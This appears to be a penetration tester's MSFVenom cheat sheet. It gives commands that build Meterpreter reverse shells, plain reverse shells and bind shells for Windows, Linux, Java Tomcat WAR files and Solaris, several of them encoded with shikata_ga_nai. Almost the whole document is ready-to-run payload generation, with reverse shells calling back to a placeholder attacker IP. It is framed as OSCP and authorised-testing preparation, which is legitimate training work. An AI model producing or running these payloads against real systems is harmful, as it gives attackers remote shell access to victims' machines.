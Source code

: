 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems. One ting to note, is that these payloads can be used more than once, obviously. I would recommend not re-generating a payload each time you compromise a service on a target server. Use a naming convention, such as:

`OS`+`TYPE`+`PORT`.extension

For instance, a Linux ELF binary, Bind Shell, Binds to port 4567 would be, `LinBind4567.elf`. Windows ELF binary, Reverse Meterpreter, returns to port 5555 would be, `WinRevMeter5555.exe`. Keep these payloads readily available as time is of the essence. 

If you are working the Offensive Security PWK labs, make sure that you don't use Meterpreter when possible as [they do not condone it and it is not allowed in the exam.](https://support.offensive-security.com/#!oscp-exam-guide.mdhttps://support.offensive-security.com/#!oscp-exam-guide.md) Hey, if it's confusing - think about it this way, some people still buy vinyl records for nostalgia, I guess not adopting new tools and methods is their thing. 

## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Meterpreter Reverse
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
### Meterpreter Reverse
`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
### Bind Shell Port 4567
`./msfvenom --platform=linux --payload=linux/x86/shell_bind_tcp -e x86/shikata_ga_nai -b '\x00' -f elf LPORT=4567 > LinBind4567.elf`

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
